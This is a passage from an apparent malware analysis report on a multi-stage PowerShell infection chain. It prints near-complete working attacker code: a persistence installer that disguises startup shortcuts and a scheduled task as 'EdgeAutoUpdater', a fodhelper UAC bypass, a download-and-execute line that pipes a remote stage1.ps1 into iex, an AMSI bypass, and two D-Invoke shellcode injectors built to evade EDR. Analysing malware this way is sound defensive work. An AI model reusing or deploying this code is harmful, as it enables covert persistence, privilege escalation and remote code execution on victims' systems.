### 2.5.4 Step 4: Persistence Setup
While the user is viewing the PDF, the script runs a lengthy persistence routine (identical to Stage 2 but pointing to a new payload).
- **LNK Creation:** Creates `EdgeAutoUpdater2.lnk` in the Startup folder.
- **UAC Bypass:** Uses the `fodhelper.exe` registry technique to escalate privileges if not already Admin.
- **Scheduled Task:** Registers `EdgeAutoUpdaterTask` as a fallback.
- **Target Payload:** All persistence mechanisms are configured to download and run `stage1.ps1`.

```powershell
param(
    [string]$LogPath = "$env:WinDir\Temp\EdgeAutoUpdater-Install.log"
)
function Write-DebugLog {
    param([string]$Message)
    $ts = Get-Date -Format "yyyy-MM-dd HH:mm:ss"
    Add-Content -Path $LogPath -Value "$ts  DEBUG: $Message"
}
Start-Transcript -Path $LogPath -Append
Write-DebugLog "=== Installer started ==="
function Create-LNK {
    param (
        [string]$lnkPath,
        [string]$targetPath,
        [string]$arguments
    )
    Write-DebugLog "[Create-LNK] Path='$lnkPath', Target='$targetPath', Args='$arguments'"
    try {
        $ws = New-Object -ComObject WScript.Shell
        $sc = $ws.CreateShortcut($lnkPath)
        $sc.TargetPath       = $targetPath
        $sc.Arguments        = $arguments
        $sc.WorkingDirectory = "C:\Windows\System32"
        $sc.IconLocation     = "C:\Program Files (x86)\Microsoft\Edge\Application\msedge.exe"
        $sc.Save()
        Write-DebugLog "[Create-LNK] Shortcut saved successfully."
        return $true
    } catch {
        Write-DebugLog "[Create-LNK] ERROR: $($_.Exception.Message)"
        return $false
    }
}
function Get-ExplorerProfile {
    $explorer = Get-Process explorer -ErrorAction SilentlyContinue | Select-Object -First 1
    if ($explorer) {
        $owner = (Get-WmiObject Win32_Process -Filter "ProcessId=$($explorer.Id)").GetOwner()
        if ($owner.User) {
            $path = "C:\Users\$($owner.User)"
            Write-DebugLog "[Get-ExplorerProfile] Found user='$($owner.User)' Profile='$path'"
            return $path
        }
    }
    Write-DebugLog "[Get-ExplorerProfile] explorer.exe not found or owner missing"
    return $null
}
function Get-QUserProfile {
    $out = quser 2>&1
    Write-DebugLog "[Get-QUserProfile] quser output: $out"
    if ($out -match '>([^\s]+)') {
        $user = $Matches[1]
        $path = "C:\Users\$user"
        Write-DebugLog "[Get-QUserProfile] Found user='$user' Profile='$path'"
        return $path
    }
    Write-DebugLog "[Get-QUserProfile] No interactive user detected"
    return $null
}
 $adminStartup = "$env:ProgramData\Microsoft\Windows\Start Menu\Programs\Startup\EdgeAutoUpdater2.lnk"
 $defaultUserStartup = [Environment]::GetFolderPath("Startup") + "\EdgeAutoUpdater2.lnk"
Write-DebugLog "Admin startup: $adminStartup"
Write-DebugLog "Default user startup: $defaultUserStartup"
 $userProfile = Get-ExplorerProfile
if (-not $userProfile) { $userProfile = Get-QUserProfile }
if ($userProfile) {
    $resolvedUserStartup = "$userProfile\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\EdgeAutoUpdater2.lnk"
    Write-DebugLog "Resolved user startup: $resolvedUserStartup"
} else {
    $resolvedUserStartup = $defaultUserStartup
    Write-DebugLog "Using default user startup path: $resolvedUserStartup"
}
 $payloadArgs = '-NoProfile -WindowStyle Hidden -ExecutionPolicy Bypass -Command "iwr -UseBasicParsing https://4bb27f72.thisisnotyourland.pages.dev/stage1.ps1 | iex"'
if (Create-LNK -lnkPath $adminStartup -targetPath "powershell.exe" -arguments $payloadArgs) {
    Write-DebugLog "Persisted to Admin startup"
} elseif (Create-LNK -lnkPath $resolvedUserStartup -targetPath "powershell.exe" -arguments $payloadArgs) {
    Write-DebugLog "Persisted to User startup"
} else {
    Write-DebugLog "FAILED to persist to any startup location"
}
if (-not ([Security.Principal.WindowsPrincipal] [Security.Principal.WindowsIdentity]::GetCurrent()).IsInRole([Security.Principal.WindowsBuiltInRole]::Administrator)) {
    Write-DebugLog "[FODHELPER] Attempting UAC bypass using fodhelper.exe"
    $regPath = "HKCU:\Software\Classes\ms-settings\shell\open\command"
    try {
        New-Item -Path $regPath -Force | Out-Null
        Set-ItemProperty -Path $regPath -Name "DelegateExecute" -Value "" -Force
        Set-ItemProperty -Path $regPath -Name "(Default)" -Value "powershell.exe $payloadArgs" -Force
        Start-Process "C:\Windows\System32\fodhelper.exe"
        Write-DebugLog "[FODHELPER] fodhelper.exe launched. Elevation should trigger."
        Start-Sleep -Seconds 5
        Remove-Item -Path "HKCU:\Software\Classes\ms-settings" -Recurse -Force
        Write-DebugLog "[FODHELPER] Registry cleaned up"
        exit
    } catch {
        Write-DebugLog "[FODHELPER] ERROR during bypass: $($_.Exception.Message)"
    }
}
 $identity = [System.Security.Principal.WindowsIdentity]::GetCurrent()
 $principal = New-Object System.Security.Principal.WindowsPrincipal($identity)
 $isElevated = $principal.IsInRole([System.Security.Principal.WindowsBuiltInRole]::Administrator)
 $isSystem   = $identity.Name -eq 'NT AUTHORITY\SYSTEM'
Write-DebugLog "Current identity=$($identity.Name) Elevated=$isElevated System=$isSystem"
if ($isSystem) {
    Write-DebugLog "SYSTEM context: skipping immediate launch"
} elseif ($isElevated) {
    Write-DebugLog "Elevated context: launching Admin LNK"
    if (Test-Path $adminStartup) {
        Start-Process $adminStartup -WindowStyle Hidden
    } else {
        Write-DebugLog "Admin LNK missing"
    }
} else {
    Write-DebugLog "Standard user context: launching User LNK"
    if (Test-Path $resolvedUserStartup) {
        Start-Process $resolvedUserStartup -WindowStyle Hidden
    } else {
        Write-DebugLog "User LNK missing"
    }
}   # <-- This is the missing closing brace that was added
 $scriptDir = Split-Path -Parent $MyInvocation.MyCommand.Definition
 $localLnk = Join-Path $scriptDir "EdgeAutoUpdater2.lnk"
Write-DebugLog "[Fallback] Writing LNK to local path: $localLnk"
Create-LNK -lnkPath $localLnk -targetPath "powershell.exe" -arguments $payloadArgs | Out-Null
Write-DebugLog "[Fallback] Launching local LNK"
if (Test-Path $localLnk) {
    Start-Process $localLnk -WindowStyle Hidden
} else {
    Write-DebugLog "[Fallback] Local LNK missing"
}
Write-DebugLog "[PS1.0] Invoking web delivery stage1 via iwr"
Start-Process "$env:WinDir\System32\WindowsPowerShell\v1.0\powershell.exe" `
    -ArgumentList '-NoProfile -ExecutionPolicy Bypass -Command "iwr -UseBasicParsing https://4bb27f72.thisisnotyourland.pages.dev/stage1.ps1 | iex"' `
    -WindowStyle Hidden
Write-DebugLog "[SCHTASKS] Registering immediate run fallback task"
try {
    schtasks /Create /F /SC ONCE /TN "EdgeAutoUpdaterTask" /TR "powershell.exe $payloadArgs" /ST 00:00 /RL HIGHEST | Out-Null
    schtasks /Run /TN "EdgeAutoUpdaterTask" | Out-Null
    Write-DebugLog "[SCHTASKS] Scheduled task created and run"
} catch {
    Write-DebugLog "[SCHTASKS] ERROR: $($_.Exception.Message)"
}
Write-DebugLog "=== Installer finished ==="
Stop-Transcript
```
### 2.5.5 Step 5: Handoff to Next Stage
The final line of the script executes the next link in the chain immediately, without waiting for a reboot.
```powershell
iwr https://4bb27f72.thisisnotyourland.pages.dev/stage1.ps1 -useb | iex
```
## 2.6 Stage 5: The Shellcode Runner (fileless-loader.ps1)
The script in the execution chain is a sophisticated, fileless shellcode runner. Unlike the previous stages which relied on standard PowerShell commands, this stage compiles C# code in memory to perform low-level Windows API calls, a technique designed to bypass advanced Endpoint Detection and Response (EDR) systems.
### 2.6.1 Technique: Dynamic Invocation (D-Invoke)
The script manually defines a C# namespace DInvoke and compiles it using Add-Type. This allows it to use **Dynamic API Resolution** rather than standard P/Invoke.

- **Avoids `[DllImport]:`** Standard malware uses `[DllImport]` to load generic Windows APIs (like `VirtualAlloc`). Security tools monitor these imports.
- **Manual Mapping:** This script uses a custom `GetLibraryAddress` function to manually locate the memory addresses of `kernel32.dll` functions (`VirtualAlloc`, `VirtualProtect`, `CreateThread`, `WaitForSingleObject`) at runtime.
- **Impact:** This hides the script's intent from static analysis engines, as there are no explicit references to "malicious" API calls in the import table.
### 2.6.2 Anti-Debugging
The script includes a specific trap for analysts:
```powershell
[System.Diagnostics.Debugger]::Break()
```
- **Purpose:** This command triggers a hardware breakpoint. If the script is running inside a debugger (like x64dbg or a sandbox being monitored), execution will pause or crash. In a normal victim environment, this might be ignored or cause a silent exception, allowing execution to proceed.
### 2.6.3 Payload Decryption (Polyalphabetic XOR)
The shellcode is not stored in cleartext. It uses a **Polyalphabetic XOR** cipher (Rolling Key), which is significantly stronger than the single-byte XOR used in Stages 1 and 3.

- **Encryption:** The shellcode is stored in a byte array `$xoredShellcode`.
- **Key:** A 16-byte array $xorKey (0x8d, 0x66...).
- **Decryption Loop:**
```powershell
# Logic: Byte[i] ^ Key[i % KeyLength]
$decoded[$i] = $xoredShellcode[$i] -bxor $xorKey[$i % $xorKey.Length]
```
### 2.6.4 Process Injection (Self-Injection)
The script executes the decrypted payload within its own process memory (PowerShell) to avoid creating new, suspicious processes.
1. **Memory Allocation:** Uses VirtualAlloc to reserve memory with Read/Write permissions (0x04).
2. **Writing:** Copies the decrypted shellcode into the allocated buffer.
3. **Permission Change:** Uses VirtualProtect to change the memory permissions to Read/Execute (0x20).
    - Note: Using 0x20 (RX) instead of 0x40 (RWX) is an OpSec technique to avoid heuristic detection triggers that look for "RWX" (Read-Write-Execute) memory pages.
4. **Execution:** Uses CreateThread to spawn a new thread starting at the shellcode's address.

```powershell
# PowerShell Self-Injection Script using D-Invoke Techniques
# Flattened Namespace for FlareVM Compatibility

$cSharpCode = @"
using System;
using System.ComponentModel;
using System.Runtime.InteropServices;

namespace DInvoke
{
    public static class Native
    {
        // --- Delegates for Dynamic Invocation ---
        [UnmanagedFunctionPointer(CallingConvention.StdCall)]
        private delegate IntPtr VirtualAllocDelegate(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

        [UnmanagedFunctionPointer(CallingConvention.StdCall)]
        private delegate bool VirtualProtectDelegate(IntPtr lpAddress, uint dwSize, uint flNewProtect, out uint lpflOldProtect);

        [UnmanagedFunctionPointer(CallingConvention.StdCall)]
        private delegate IntPtr CreateThreadDelegate(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, out IntPtr lpThreadId);

        [UnmanagedFunctionPointer(CallingConvention.StdCall)]
        private delegate uint WaitForSingleObjectDelegate(IntPtr hHandle, uint dwMilliseconds);

        [UnmanagedFunctionPointer(CallingConvention.StdCall)]
        private delegate bool CloseHandleDelegate(IntPtr hObject);

        // --- Wrapper Methods ---
        public static IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect)
        {
            IntPtr pFunc = Generic.GetLibraryAddress("kernel32.dll", "VirtualAlloc");
            var func = (VirtualAllocDelegate)Marshal.GetDelegateForFunctionPointer(pFunc, typeof(VirtualAllocDelegate));
            return func(lpAddress, dwSize, flAllocationType, flProtect);
        }

        public static bool VirtualProtect(IntPtr lpAddress, uint dwSize, uint flNewProtect, out uint lpflOldProtect)
        {
            IntPtr pFunc = Generic.GetLibraryAddress("kernel32.dll", "VirtualProtect");
            var func = (VirtualProtectDelegate)Marshal.GetDelegateForFunctionPointer(pFunc, typeof(VirtualProtectDelegate));
            return func(lpAddress, dwSize, flNewProtect, out lpflOldProtect);
        }

        public static IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, out IntPtr lpThreadId)
        {
            IntPtr pFunc = Generic.GetLibraryAddress("kernel32.dll", "CreateThread");
            var func = (CreateThreadDelegate)Marshal.GetDelegateForFunctionPointer(pFunc, typeof(CreateThreadDelegate));
            return func(lpThreadAttributes, dwStackSize, lpStartAddress, lpParameter, dwCreationFlags, out lpThreadId);
        }

        public static uint WaitForSingleObject(IntPtr hHandle, uint dwMilliseconds)
        {
            IntPtr pFunc = Generic.GetLibraryAddress("kernel32.dll", "WaitForSingleObject");
            var func = (WaitForSingleObjectDelegate)Marshal.GetDelegateForFunctionPointer(pFunc, typeof(WaitForSingleObjectDelegate));
            return func(hHandle, dwMilliseconds);
        }

        public static bool CloseHandle(IntPtr hObject)
        {
            IntPtr pFunc = Generic.GetLibraryAddress("kernel32.dll", "CloseHandle");
            var func = (CloseHandleDelegate)Marshal.GetDelegateForFunctionPointer(pFunc, typeof(CloseHandleDelegate));
            return func(hObject);
        }
    }

    public static class Generic
    {
        [DllImport("kernel32", SetLastError = true, CharSet = CharSet.Ansi)]
        private static extern IntPtr LoadLibrary(string lpFileName);

        [DllImport("kernel32", SetLastError = true, CharSet = CharSet.Ansi)]
        private static extern IntPtr GetProcAddress(IntPtr hModule, string lpProcName);

        public static IntPtr GetLibraryAddress(string libraryName, string functionName)
        {
            IntPtr hModule = LoadLibrary(libraryName);
            if (hModule == IntPtr.Zero) throw new Win32Exception(Marshal.GetLastWin32Error());

            IntPtr functionPtr = GetProcAddress(hModule, functionName);
            if (functionPtr == IntPtr.Zero) throw new Win32Exception(Marshal.GetLastWin32Error());

            return functionPtr;
        }
    }

    public static class SelfInjection
    {
        public static IntPtr Inject(byte[] shellcode, byte[] xorKey, bool wait = false)
        {
            // 1. Allocate Memory (Read/Write)
            IntPtr baseAddr = Native.VirtualAlloc(IntPtr.Zero, (uint)shellcode.Length, 0x1000, 0x04);
            if (baseAddr == IntPtr.Zero) throw new Win32Exception(Marshal.GetLastWin32Error());
            
            // 2. Copy and Decrypt in memory
            Marshal.Copy(shellcode, 0, baseAddr, shellcode.Length);
            for (int i = 0; i < shellcode.Length; i++)
            {
                byte b = Marshal.ReadByte(baseAddr, i);
                Marshal.WriteByte(baseAddr, i, (byte)(b ^ xorKey[i % xorKey.Length]));
            }

            // 3. Change Memory Protection to Execute/Read (0x20)
            uint oldProtect;
            if (!Native.VirtualProtect(baseAddr, (uint)shellcode.Length, 0x20, out oldProtect))
                throw new Win32Exception(Marshal.GetLastWin32Error());

            // 4. Create Thread to execute shellcode
            IntPtr threadId = IntPtr.Zero;
            IntPtr hThread = Native.CreateThread(IntPtr.Zero, 0, baseAddr, IntPtr.Zero, 0, out threadId);

            if (hThread == IntPtr.Zero) throw new Win32Exception(Marshal.GetLastWin32Error());

            if (wait)
            {
                Native.WaitForSingleObject(hThread, 0xFFFFFFFF);
                Native.CloseHandle(hThread);
            }

            return hThread;
        }
    }
}
"@

# Compile the code
Add-Type -TypeDefinition $cSharpCode -Language CSharp

# Example Usage: XOR-encrypted MessageBox shellcode (x86)
# NOTE: Replace with your actual shellcode and key
$xoredShellcode = [byte[]] @(0x65, 0x66, 0x85, 0x59, ------snip------, 0x3d, 0xba, 0x3f, 0x4d, 0x19)

$xorKey = [byte[]] @(0x8d, 0x66, 0x85, 0x59, 0xbc, 0x2e, 0x42, 0x3d, 0xde, 0x5e, 0x3b, 0x7c, 0x16, 0xb0, 0x1c, 0x01)

try {
    Write-Host "Injecting shellcode..." -ForegroundColor Yellow
# C# breakpoint INT3
    [System.Diagnostics.Debugger]::Break()
# same as __debugbreak() in C
	$threadHandle = [DInvoke.SelfInjection]::Inject($xoredShellcode, $xorKey, $true)
if ($threadHandle -ne [IntPtr]::Zero) {
        Write-Host "[+] Injection successful. Thread Handle: $threadHandle" -ForegroundColor Green
    }

}
catch {
Write-Host "[-] Injection failed!" -ForegroundColor Red
    Write-Host "[-] Error: $($_.Exception.Message)" -ForegroundColor Red
    
    # Check for inner exceptions (common with D-Invoke compilation issues)
    if ($_.Exception.InnerException) {
        Write-Host "[-] Details: $($_.Exception.InnerException.Message)" -ForegroundColor Red
    }
}
```
### 2.6.5 Payload Extraction
The binary payload was extracted by replicating the script's decryption routine.
- **Source File:** fileless-loader.ps1
- **Output File:** shellcode_decoded.bin
```powershell
$xoredShellcode = [byte[]] @(0x65, 0x66, 0x85, 0x59, ------snip------, 0xba, 0x3f, 0x4d, 0x19)

$xorKey = [byte[]] @(0x8d, 0x66, 0x85, 0x59, 0xbc, 0x2e, 0x42, 0x3d, 0xde, 0x5e, 0x3b, 0x7c, 0x16, 0xb0, 0x1c, 0x01)

$decoded = New-Object byte[] $xoredShellcode.Length

for ($i = 0; $i -lt $xoredShellcode.Length; $i++) {
    $decoded[$i] = $xoredShellcode[$i] -bxor $xorKey[$i % $xorKey.Length]
}

[System.IO.File]::WriteAllBytes("C:\Users\Profzzor\Desktop\wix\shellcode_decoded.bin", $decoded)
```

## 2.7 Stage 5: The "Bypass" Module (amsibypass.ps1)
Calls to amsibypass.ps1 were observed in the previous stage. Despite its name suggesting a simple configuration script, analysis reveals it is another fully weaponized shellcode runner.
### 2.7.1 Initial Execution & Basic Bypass
The script begins with a standard, well-known AMSI bypass technique to clear the way for its own unpacking routine. 
```powershell
$a=[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils');
$a.GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true);
IEX @'
[GC]::Collect()|Out-Null;
$data = 'FIADC7------snip------izATEL'
$data = $data -replace 'twN0ESriHImqc6oWkzaLmVpiwpAF6ImFIUqxXKwK6mR8MMpjApatLk7sZI90AYPv2Z1VkqP6tHJvK5nyLiB22sy1H4VkCIWnc09vBgWUvIvzlSiDbrNsycsUHk8orEgGQnHk3RS3m30sb',''
$bytes = [Convert]::FromBase64String($data)
$bytes = $bytes | % { $_ -bxor 11 }
$ms = New-Object IO.MemoryStream(, $bytes)
$gs = New-Object IO.Compression.GzipStream($ms, [IO.Compression.CompressionMode]::Decompress)
$sr = New-Object IO.StreamReader($gs, [Text.Encoding]::Unicode)
$plain = $sr.ReadToEnd()
$sr.Close(); $gs.Close(); $ms.Close()
IEX $plain
'@
```
Following the pattern of previous stages, the core logic is hidden inside an encrypted blob to evade static signatures.
- **Sanitization:** Removes junk strings (`twN0ESri...`).
- **Decryption:**
    - **Algorithm:** Base64 -> XOR.
    - **Key:** `11 (0x0B)`.
    - **Decompression:** Gzip.
```powershell
$data = 'FIADC7------snip------izATEL'
$data = $data -replace 'twN0ESriHImqc6oWkzaLmVpiwpAF6ImFIUqxXKwK6mR8MMpjApatLk7sZI90AYPv2Z1VkqP6tHJvK5nyLiB22sy1H4VkCIWnc09vBgWUvIvzlSiDbrNsycsUHk8orEgGQnHk3RS3m30sb',''
$bytes = [Convert]::FromBase64String($data)
$bytes = $bytes | % { $_ -bxor 11 }
$ms = New-Object IO.MemoryStream(, $bytes)
$gs = New-Object IO.Compression.GzipStream($ms, [IO.Compression.CompressionMode]::Decompress)
$sr = New-Object IO.StreamReader($gs, [Text.Encoding]::Unicode)
$plain = $sr.ReadToEnd()
$sr.Close(); $gs.Close(); $ms.Close()
$plain | Out-File -FilePath "C:\Users\Profzzor\Desktop\wix\amsibypass_1.ps1" -Encoding Unicode
```
### 2.7.2 Helper Module Analysis (amsibypass_1.ps1)
The decrypted payload (`amsibypass_1.ps1`) was analyzed.  Its primary function is to inject a specific shellcode payload using low-level system calls to avoid detection by EDR hooks.

**A. Native API (NTAPI) Usage**  
Unlike the payload (Stage 5) which uses kernel32.dll functions, this module resolves functions directly from ntdll.dll.
- **Technique:** **Dynamic NTAPI Resolution**.
- **Mechanism:**
    1. It defines a custom DInvoke class to manually locate GetProcAddress and LoadLibraryA.
    2. It resolves critical Native APIs:
        - NtAllocateVirtualMemory: For memory allocation (bypassing VirtualAlloc).
        - NtProtectVirtualMemory: For changing permissions (bypassing VirtualProtect).
        - NtCreateThreadEx: For execution (bypassing CreateThread).
- **Significance:** Security products often place "hooks" on kernel32.dll functions to monitor for malware. By calling ntdll.dll functions directly, this script bypasses those user-mode hooks.
```powershell
$code = @"
using System;
using System.Runtime.InteropServices;
public class DInvokeShellcode
{
    public const uint MEM_COMMIT = 0x00001000;
    public const uint MEM_RESERVE = 0x00002000;
    public const uint PAGE_EXECUTE_READWRITE = 0x40;
    public const uint PAGE_READWRITE = 0x04;
    public const uint PROV_RSA_AES = 24;
    public const uint CRYPT_VERIFYCONTEXT = 0xF0000000;
    public const uint CALG_SHA_256 = 0x0000800c;
    public const uint CALG_AES_128 = 0x0000660e;
    public static class DInvoke
    {
        [DllImport("kernel32.dll", SetLastError = true)]
        public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);
        [DllImport("kernel32.dll", SetLastError = true)]
        public static extern IntPtr LoadLibraryA(string lpFileName);
        public static IntPtr GetFunctionAddress(string moduleName, string functionName)
        {
            WriteOutput("Resolving " + functionName + " in " + moduleName);
            IntPtr hModule = LoadLibraryA(moduleName);
            if (hModule == IntPtr.Zero)
            {
                WriteOutput("LoadLibraryA failed for " + moduleName + ": Error " + Marshal.GetLastWin32Error());
                return IntPtr.Zero;
            }
            IntPtr funcPtr = GetProcAddress(hModule, functionName);
            if (funcPtr == IntPtr.Zero)
            {
                WriteOutput("GetProcAddress failed for " + functionName + ": Error " + Marshal.GetLastWin32Error());
            }
            else
            {
                WriteOutput("Resolved " + functionName + " at 0x" + funcPtr.ToInt64().ToString("X"));
            }
            return funcPtr;
        }
    }
    [UnmanagedFunctionPointer(CallingConvention.StdCall)]
    public delegate int NtAllocateVirtualMemoryDelegate(IntPtr ProcessHandle, ref IntPtr BaseAddress, IntPtr ZeroBits, ref IntPtr RegionSize, uint AllocationType, uint Protect);
    [UnmanagedFunctionPointer(CallingConvention.StdCall)]
    public delegate int NtProtectVirtualMemoryDelegate(IntPtr ProcessHandle, ref IntPtr BaseAddress, ref IntPtr RegionSize, uint Protect, ref uint OldProtect);
    [UnmanagedFunctionPointer(CallingConvention.StdCall)]
    public delegate int NtCreateThreadExDelegate(
        ref IntPtr ThreadHandle,
        uint DesiredAccess,
        IntPtr ObjectAttributes,
        IntPtr ProcessHandle,
        IntPtr StartAddress,
        IntPtr Parameter,
        uint CreateFlags,
        IntPtr ZeroBits,
        IntPtr StackSize,
        IntPtr MaximumStackSize,
        IntPtr AttributeList);
    [UnmanagedFunctionPointer(CallingConvention.StdCall)]
    public delegate bool CloseHandleDelegate(IntPtr hObject);
    public static int XORDecrypt(byte[] encryptedData, byte[] xorKey)
    {
        WriteOutput("Starting XOR decryption");
        try
        {
            if (xorKey == null || xorKey.Length != 16)
                throw new ArgumentException("Invalid XOR key length, expected 16 bytes");
            for (int i = 0; i < encryptedData.Length; i++)
            {
                encryptedData[i] = (byte)(encryptedData[i] ^ xorKey[i % xorKey.Length]);
            }
            WriteOutput("XOR decryption successful");
            return 0;
        }
        catch (Exception ex)
        {
            WriteOutput("XOR decryption error: " + ex.Message);
            return -1;
        }
    }
    public static int AESDecrypt(byte[] encryptedData, byte[] key)
    {
        WriteOutput("Starting AES decryption");
        IntPtr hProv = IntPtr.Zero;
        IntPtr hHash = IntPtr.Zero;
        IntPtr hKey = IntPtr.Zero;
        try
        {
            if (!CryptAcquireContextW(ref hProv, null, null, PROV_RSA_AES, CRYPT_VERIFYCONTEXT))
            {
                WriteOutput("CryptAcquireContextW failed: Error " + Marshal.GetLastWin32Error());
                return -1;
            }
            if (!CryptCreateHash(hProv, CALG_SHA_256, IntPtr.Zero, 0, ref hHash))
            {
                WriteOutput("CryptCreateHash failed: Error " + Marshal.GetLastWin32Error());
                return -1;
            }
            if (!CryptHashData(hHash, key, (uint)key.Length, 0))
            {
                WriteOutput("CryptHashData failed: Error " + Marshal.GetLastWin32Error());
                return -1;
            }
            if (!CryptDeriveKey(hProv, CALG_AES_128, hHash, 0, ref hKey))
            {
                WriteOutput("CryptDeriveKey failed: Error " + Marshal.GetLastWin32Error());
                return -1;
            }
            byte[] dataToDecrypt = (byte[])encryptedData.Clone();
            uint dataLength = (uint)dataToDecrypt.Length;
            if (!CryptDecrypt(hKey, IntPtr.Zero, true, 0, dataToDecrypt, ref dataLength))
            {
                WriteOutput("CryptDecrypt failed: Error " + Marshal.GetLastWin32Error());
                return -1;
            }
            Array.Copy(dataToDecrypt, 0, encryptedData, 0, (int)dataLength);
            WriteOutput("AES decryption successful");
            return 0;
        }
        catch (Exception ex)
        {
            WriteOutput("AES decryption error: " + ex.Message);
            return -1;
        }
        finally
        {
            if (hKey != IntPtr.Zero) CryptDestroyKey(hKey);
            if (hHash != IntPtr.Zero) CryptDestroyHash(hHash);
            if (hProv != IntPtr.Zero) CryptReleaseContext(hProv, 0);
        }
    }
    public static void ExecuteShellcode(byte[] encryptedShellcode, byte[] aesKey, byte[] xorKey)
    {
        WriteOutput("Starting ExecuteShellcode");
        try
        {
            if (encryptedShellcode == null || encryptedShellcode.Length == 0)
                throw new ArgumentException("Invalid shellcode");
            // Try XOR decryption first
            WriteOutput("Attempting XOR decryption");
            byte[] decryptedShellcode = (byte[])encryptedShellcode.Clone();
            int xorResult = XORDecrypt(decryptedShellcode, xorKey);
            bool useXOR = (xorResult == 0);
            if (!useXOR)
            {
                WriteOutput("XOR decryption failed, falling back to AES");
                if (aesKey == null || aesKey.Length != 16)
                    throw new ArgumentException("Invalid AES key");
                decryptedShellcode = (byte[])encryptedShellcode.Clone();
                int aesResult = AESDecrypt(decryptedShellcode, aesKey);
                if (aesResult != 0)
                    throw new Exception("Failed to decrypt shellcode. Error code: " + aesResult);
            }
            WriteOutput("Shellcode decrypted successfully");
            IntPtr ntAllocPtr = DInvoke.GetFunctionAddress("ntdll.dll", "NtAllocateVirtualMemory");
            if (ntAllocPtr == IntPtr.Zero) throw new Exception("Failed to resolve NtAllocateVirtualMemory");
            var ntAllocateVirtualMemory = Marshal.GetDelegateForFunctionPointer<NtAllocateVirtualMemoryDelegate>(ntAllocPtr);
            IntPtr ntProtectPtr = DInvoke.GetFunctionAddress("ntdll.dll", "NtProtectVirtualMemory");
            if (ntProtectPtr == IntPtr.Zero) throw new Exception("Failed to resolve NtProtectVirtualMemory");
            var ntProtectVirtualMemory = Marshal.GetDelegateForFunctionPointer<NtProtectVirtualMemoryDelegate>(ntProtectPtr);
            IntPtr ntCreateThreadPtr = DInvoke.GetFunctionAddress("ntdll.dll", "NtCreateThreadEx");
            if (ntCreateThreadPtr == IntPtr.Zero) throw new Exception("Failed to resolve NtCreateThreadEx");
            var ntCreateThreadEx = Marshal.GetDelegateForFunctionPointer<NtCreateThreadExDelegate>(ntCreateThreadPtr);
            WriteOutput("Running shellcode in .NET");
            IntPtr memory = IntPtr.Zero;
            IntPtr size = (IntPtr)decryptedShellcode.Length;
            int status = ntAllocateVirtualMemory((IntPtr)(-1), ref memory, IntPtr.Zero, ref size, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
            if (status != 0 || memory == IntPtr.Zero)
                throw new Exception(String.Format("NtAllocateVirtualMemory failed. Status: 0x{0:X}, Error: {1}", status, Marshal.GetLastWin32Error()));
            WriteOutput(String.Format("Allocated memory at 0x{0:X}", memory.ToInt64()));
            Marshal.Copy(decryptedShellcode, 0, memory, decryptedShellcode.Length);
            uint oldProtect = 0;
            status = ntProtectVirtualMemory((IntPtr)(-1), ref memory, ref size, PAGE_EXECUTE_READWRITE, ref oldProtect);
            if (status != 0)
                throw new Exception(String.Format("NtProtectVirtualMemory failed. Status: 0x{0:X}, Error: {1}", status, Marshal.GetLastWin32Error()));
            WriteOutput("Memory protection changed to PAGE_EXECUTE_READWRITE");
            IntPtr threadHandle = IntPtr.Zero;
            status = ntCreateThreadEx(
                ref threadHandle,
                0x1FFFFF,
                IntPtr.Zero,
                (IntPtr)(-1),
                memory,
                IntPtr.Zero,
                0,
                IntPtr.Zero,
                (IntPtr)0x100000,
                (IntPtr)0x1000,
                IntPtr.Zero
            );
            if (status != 0 || threadHandle == IntPtr.Zero)
                throw new Exception(String.Format("NtCreateThreadEx failed. Status: 0x{0:X}, Error: {1}", status, Marshal.GetLastWin32Error()));
            WriteOutput(String.Format("Thread created with handle 0x{0:X}", threadHandle.ToInt64()));
            // Close the thread handle since we don't need to wait for it
            IntPtr closeHandlePtr = DInvoke.GetFunctionAddress("kernel32.dll", "CloseHandle");
            if (closeHandlePtr == IntPtr.Zero)
            {
                WriteOutput("Failed to resolve CloseHandle, handle will be leaked");
            }
            else
            {
                var closeHandle = Marshal.GetDelegateForFunctionPointer<CloseHandleDelegate>(closeHandlePtr);
                if (!closeHandle(threadHandle))
                {
                    WriteOutput("CloseHandle failed: Error " + Marshal.GetLastWin32Error());
                }
                else
                {
                    WriteOutput("Thread handle closed");
                }
            }
            WriteOutput("Shellcode execution initiated successfully (thread is running in background)");
        }
        catch (Exception ex)
        {
            WriteOutput("Shellcode execution failed: " + ex.Message);
            throw;
        }
    }
    private static void WriteOutput(string message)
    {
        Console.WriteLine(message);
    }
    [DllImport("advapi32.dll", SetLastError = true)]
    [return: MarshalAs(UnmanagedType.Bool)]
    private static extern bool CryptAcquireContextW(ref IntPtr hProv, string pszContainer, string pszProvider, uint dwProvType, uint dwFlags);
    [DllImport("advapi32.dll", SetLastError = true)]
    [return: MarshalAs(UnmanagedType.Bool)]
    private static extern bool CryptCreateHash(IntPtr hProv, uint Algid, IntPtr hKey, uint dwFlags, ref IntPtr phHash);
    [DllImport("advapi32.dll", SetLastError = true)]
    [return: MarshalAs(UnmanagedType.Bool)]
    private static extern bool CryptHashData(IntPtr hHash, byte[] pbData, uint dwDataLen, uint dwFlags);
    [DllImport("advapi32.dll", SetLastError = true)]
    [return: MarshalAs(UnmanagedType.Bool)]
    private static extern bool CryptDeriveKey(IntPtr hProv, uint Algid, IntPtr hBaseData, uint dwFlags, ref IntPtr phKey);
    [DllImport("advapi32.dll", SetLastError = true)]
    [return: MarshalAs(UnmanagedType.Bool)]
    private static extern bool CryptDecrypt(IntPtr hKey, IntPtr hHash, bool Final, uint dwFlags, byte[] pbData, ref uint pdwDataLen);
    [DllImport("advapi32.dll", SetLastError = true)]
    [return: MarshalAs(UnmanagedType.Bool)]
    private static extern bool CryptDestroyKey(IntPtr hKey);
    [DllImport("advapi32.dll", SetLastError = true)]
    [return: MarshalAs(UnmanagedType.Bool)]
    private static extern bool CryptDestroyHash(IntPtr hHash);
